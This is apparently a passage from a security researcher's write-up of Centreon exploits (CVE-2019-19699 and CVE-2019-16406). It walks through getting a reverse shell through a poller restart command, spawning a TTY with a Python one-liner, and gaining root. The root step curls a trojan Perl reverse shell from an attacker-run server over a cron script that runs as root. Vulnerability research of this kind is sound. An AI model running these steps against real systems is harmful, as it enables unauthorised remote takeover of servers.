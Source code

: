 Finally we click the **Export configuration** button in the **Configuration > Pollers** menu

![](/content/spengesec/CVE-2019-19699/images/export.png)

1. Select our **Central** poller in the **Pollers** drop down box

2. Untick the **Generate Configuration Files** and **Run monitoring engine debug (-v)** check boxes

3. Tick the **Restart Monitoring Engine** and **Post generation command** check boxes

4. Select **Restart** in the **Method** dropdown box

![](/content/spengesec/CVE-2019-19699/images/final.png)

Upon clicking **Export** the Poller will restart, and thus execute the **Post-Restart Command** we previously configured
This is the moment our reverse shell listener will get a connection

![](/content/spengesec/CVE-2019-19699/images/listener.gif)
  
**Authenticated Remote Code Execution has been successful!**

_(This was the write up for **CVE-2019-19699**)_

From here on we move to gaining **Root** 

We will use **CVE-2019-16406** found by _TheCyberGeek_ to fully compromise the Centreon =< 19.10 server

Let's start by spawning a **TTY shell** in our current reverse shell terminal

```python -c 'import pty; pty.spawn("/bin/sh")'```

![](/content/spengesec/CVE-2019-19699/images/tty_shell.gif)
  
We now take a look which cron tasks exist by doing a **cat /etc/cron.d/***

![](/content/spengesec/CVE-2019-19699/images/cat_cron.gif)
  
We now see that **centreon_autodisc.pl** is a Cron task

(Was set from _30 22 * * * root_ **to**  _* * * * * root_ for **demonstration purposes**)

![](/content/spengesec/CVE-2019-19699/images/cron_disco.png)
  
This is executed as **Root**, lets _replace_ the **centreon_autodisco.pl** with a **Perl reverse shell**

The **Perl shell** i will be using, can be downloaded [here](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Download the reverse shell, and edit the **ip address** and **port** to yours as explained on the web page

Preform a mv to rename the **perl-reverse-shell.pl** to **centreon_autodisco.pl** file locally

![](/content/spengesec/CVE-2019-19699/images/mv_shell.png)
  
Lets go ahead and start a local **_SimpleHTTPServer_** on a port of your choice
![](/content/spengesec/CVE-2019-19699/images/http_server.png)
    
This way, we can **_curl http://{local_ip}:{port}/centreon_autodisco.pl -o /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/centreon_autodisco.pl_** to replace the existing **centreon_autodisco.pl** with our _trojan_ Perl reverse shell

![](/content/spengesec/CVE-2019-19699/images/curl_rootshell.png)
  
```
